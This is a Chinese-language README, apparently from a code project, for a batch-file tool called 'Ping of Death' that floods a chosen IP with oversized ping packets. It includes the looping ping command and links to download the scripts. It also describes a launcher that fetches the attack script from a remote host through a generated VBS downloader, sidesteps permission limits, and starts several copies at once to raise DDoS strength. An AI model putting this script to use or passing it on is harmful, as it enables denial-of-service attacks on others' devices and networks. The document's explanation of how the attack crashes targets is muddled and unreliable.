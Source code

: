 # Ping of Death：使用bat进行DDOS  
## 介绍
“Ping of Death” 是一个通过bat批量处理文件来进行DDOS的项目，你可以用它来进行对网络摄像头等小型设备进行压力测试。
## 下载
### pingofdeath.bat
我们提供**单个执行文件**，您可以使用它在**断开互联网**的情况下使用。[点击这里下载pingofdeath.bat](https://pingofdeath.vercel.app/pingofdeath.bat)  
### startofping.bat
同时，在**联网的情况**下我们也提供更高效的启动器，集成**下载**和**运行**功能。在默认情况下，你最多可以通过它一次**启动10个**pingofdeath.bat。你可以[点击这里下载startofping.bat](https://pingofdeath.vercel.app/startofping.bat)  
## 配置
startofping.bat并不需要特别配置，您只需要配置pingofdeath.bat即可。  
这里提供源代码参考，你只需要**替换你的目标IP**即可。  

    :loop
    ping <填写你的IP> -l 65500 -w 1 -n 1
    goto :loop

****
## 解读  
### pingofdeath.bat  
ping 数据包也可以通过向目标 IP 地址发送连续的 ping 数据包来执行拒绝服务攻击。持续 ping 会导致目标系统的缓冲区溢出，并导致目标系统崩溃。   
一个 ping 数据包的大小通常为 56 字节或 84 字节（包括 IP 标头）。但是，一个 ping 数据包也可以最大为 65,536 字节。  
并非所有计算机都可以处理大于固定大小的数据。因此，当一个 ping of death 数据包从源计算机发送到目标计算机时，ping 数据包会被分割成更小的数据包组。  
一个片段大小为 8 个八位字节。当这些数据包到达目标计算机时，它们会分段到达。因此，目标计算机重新组装成块收到的格式错误的数据包。  
但是，整个组装的数据包会导致目标计算机的缓冲区溢出。  
这种缓冲流经常导致系统崩溃，使系统更容易受到攻击。  
### startofping.bat
这是pingofdeath.bat的启动器，它包括下载和运行两种功能。
下载功能很简单，[百度知道](https://zhidao.baidu.com/question/2015853793461382908.html)里面有回答。  
但是值得注意的是，如果你使用了上面的代码，我们需要稍作修改，因为这可能会遇到权限问题，具体在下面说明。  
考虑到大部分用户会把文件放在C盘（桌面），我们没有管理员权限，所以就制定了两种下载方案。
####  1.放在D盘  
考虑到不同系统对于C盘权限要求不同，我们选择把文件放在D盘。  

    ::设置文件保存目录，若下载至当前目录，请留空  
    set Save=D:\

注意，上面的代码会创建一个DownloadFile.vbs文件来下载startofping.bat。由于权限问题，我们需要指定路径。  

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>D:\DownloadFile.vbs

最后，我们需要启动下载的文件。我们在这里重复5次来加大DDOS效率。  

    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat

####  2.放在C盘
考虑到极个别电脑只有C盘一个盘符（虽然这种可能性极小），我们还是准备了C盘方案。经检验，Windows11系统的C:\Users\Public\是可以无权限使用的。所以同理：  


    ::设置文件保存目录，若下载至当前目录，请留空
    set Save=C:\Users\Public\

更改DownloadFile.vbs文件指定路径。  

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>C:\Users\Public\DownloadFile.vbs

最后，我们启动下载的文件。  

    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat

至此，代码就解读完成了。 
**** 
## 存放服务器
由于GitHubPage好像禁止了直接通过http下载文件，我们就使用了vercle服务，文件直接从vercel服务器获取pingofdeath.bat。  

****   
作者的[博客](https://gloridust.tk)